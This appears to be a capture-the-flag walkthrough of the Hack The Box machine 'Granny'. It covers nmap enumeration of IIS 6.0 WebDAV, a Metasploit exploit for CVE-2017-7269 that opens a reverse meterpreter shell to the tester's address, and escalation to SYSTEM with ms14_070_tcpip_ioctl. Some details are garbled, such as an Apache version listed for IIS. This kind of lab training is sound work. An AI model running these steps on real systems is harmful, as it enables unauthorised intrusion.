 ![logo](/logo.png)

# [Granny- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 12 Apr 2017 as the twelfth machine on HTB,Granny created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Microsoft-IIS/6.0
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/granny 10.10.10.15
```

###### Output 

![](/Windows/Windows-Easy/Granny/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/granny 10.10.10.15                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-13 18:34 EAT
Nmap scan report for 10.10.10.15
Host is up (0.33s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Server Date: Tue, 13 Aug 2024 15:35:35 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Type: Microsoft-IIS/6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.69 seconds
```

looking at the results  we find out that there is 1 ports open and its a `Windows`and its running an `Microsoft IIS httpd 6.0`. 

port[80]-  httpd 2.4.18

when we naviagate to [http://10.10.10.15](http://10.10.10.15) we find a page that say it under construction 

 ![](/Windows/Windows-Easy/Granny/Screenshots/granny.png)

so we know the machine version so what we are going to do is to search for the exploit 

```sh
searchsploit Microsoft IIS 6.0 
```

![](/Windows/Windows-Easy/Granny/Screenshots/searchsploit.png)

Some searching reveals a remote code execution vulnerability (CVE-2017-7269). There is a proof of concept that requires some modification, as well as a Metasploit module. Lets examine the Remote Buffer Overflow.After Examining the exploit we now Import it to our working directory.

# Exploitation

Executing the Metasploit module `windows/iis/iis_webdav_scstoragepathfromurl` immediately grants a shell.

```sh
use windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.15
set RPORT 80
set LHOST 10.10.14.15
run
```

![](/Windows/Windows-Easy/Granny/Screenshots/meterpreter.png)

looking at `sysinfo` it refuse because of access probably we are in the 32-bit meterpreter that does not have privillages .We noticed that it running a 32 bit meterpreter so lets migrate to a 32 bit meterpreter with `NT Authority` and be able to run a `local suggester`

After migrating we can now be able to run `sysinfo`

![](/Windows/Windows-Easy/Granny/Screenshots/sy64.png)

now i run suggester to find exploits which are vulnerable

# Privillage Exploitation

```sh
search local_exploit_suggester
use multi/recon/local_exploit_suggester
```

![](/Windows/Windows-Easy/Granny/Screenshots/eploits.png)

looking at the results we find that their are a couple of exploits. In this case lets try this exploit `exploit/windows/local/ms14_070_tcpip_ioctl`

```sh
use exploit/windows/local/ms14_070_tcpip_ioctl
```

![](/Windows/Windows-Easy/Granny/Screenshots/msf.png)

and just that way we get shell

![](/Windows/Windows-Easy/Granny/Screenshots/shell.png)

we can get the user flag from `C:\Documents and Settings\Lakis\Desktop`  and the root flag from `C:\Documents and Settings\Administrator\Desktop\root.txt`

![](/Windows/Windows-Easy/Granny/Screenshots/root.png)

	-------------------------END successful attack @lesley----------------------
